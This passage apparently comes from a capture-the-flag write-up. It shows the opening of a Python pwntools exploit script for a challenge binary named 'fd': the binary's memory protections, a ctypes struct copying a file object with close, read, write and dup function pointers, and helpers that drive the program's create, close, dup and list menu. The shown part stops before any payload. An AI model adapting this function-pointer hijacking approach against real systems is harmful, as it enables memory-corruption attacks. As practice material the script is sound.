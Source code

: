 The following script performs this:
```python
#First, generate a template with "pwn template fd"
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# FORTIFY:  Enabled

import re, ctypes

class file_context_t(ctypes.Structure):
    _fields_ = [    
                    ("reference_count",     ctypes.c_ubyte),
                    ("reserved" ,           ctypes.c_ubyte * 3),
                    ("data_length",         ctypes.c_uint32),
                    ("data",                ctypes.c_char_p),
                    ("name" ,               ctypes.c_ubyte * 32),
                    ("p_close_func" ,       ctypes.c_uint64), # void*
                    ("p_read_func" ,        ctypes.c_uint64), # void*
                    ("p_write_func" ,       ctypes.c_uint64), # void*
                    ("p_dup_func" ,         ctypes.c_uint64) # void*
    ]

    def to_bytes(self):
        return buffer(self)[:]

UINT8_MAX = 0xFF

ENTER_CMD = "\nEnter the command you want to execute."

def read_opening_text(proc):
    return proc.recvuntil(ENTER_CMD, drop = True) 

def read_menu(proc):
    proc.recvuntil("\n> ")

def print_list(proc):
    read_menu(proc)
    proc.sendline("list")
    return proc.recvuntil(ENTER_CMD, drop = True)

def create(proc, name):
    read_menu(proc)
    proc.sendline("create {}".format(name))
    resp = proc.recvline()
    if "Error" in resp:
        raise Exception(resp)
    new_fd = resp.split(": ")[1].rstrip()
    log.info("File '{}' created with fd {}".format(name, new_fd))
    return new_fd

def close(proc, fd):
    read_menu(proc)
    proc.sendline("close {}".format(fd))
    log.info("Closing file with fd {}".format(fd))

def dup(proc, fd):
    read_menu(proc)
    proc.sendline("dup {}".format(fd))
```